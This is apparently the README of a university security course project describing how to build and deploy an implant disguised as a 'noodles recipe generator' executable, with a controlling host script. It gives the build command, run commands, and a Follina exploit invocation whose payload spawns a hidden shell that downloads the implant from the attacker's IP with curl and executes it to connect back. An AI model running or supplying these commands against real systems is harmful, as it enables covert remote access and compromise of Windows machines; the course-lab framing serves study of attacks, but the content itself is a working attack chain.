 # CS564_FinalProject
By Samuel Almeida, Arjun Viswanathan, and Ben Esenther

# How to run

Running our code can be done via the Python files alone or using the executable and the Follina vulnerability. Note that the executable is too large to have on this repository, but it can be created using the following command: \
```pyinstaller --onefile --add-binary "gui.py;." noodles_recipe_generator.py``` 

This will create a .exe file in the dist directory on your filesystem.

## Without the Follina Vulnerability
To run the executable, run \
```start /B noodles_recipe_generator.exe <IPADDR>``` \
IPADDR: is the IP address of your host system that the implant connects to. 

To run the host, run \
```python host.py <IPADDR>``` \
IPADDR: is the IP address of your host system that the implant connects to. 

## With the Follina Vulnerability
Firstly, you will need to create a Windows 10 (pre May 2022) Virtual Machine. No requirement for the software. Just use the browser on Windows 10

To run the exploit, run \
```sudo python follina.py -m command -u <IPADDR> -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c curl http://<IPADDR>/noodle_recipes_generator.exe -o c:\users\user\noodle_recipes_generator.exe && start /B c:\users\user\noodle_recipes_generator.exe <IPADDR>'" -t docx``` 

To run the host, run \
```python host.py <IPADDR>``` 

Again, IPADDR is your host machine IP address. 
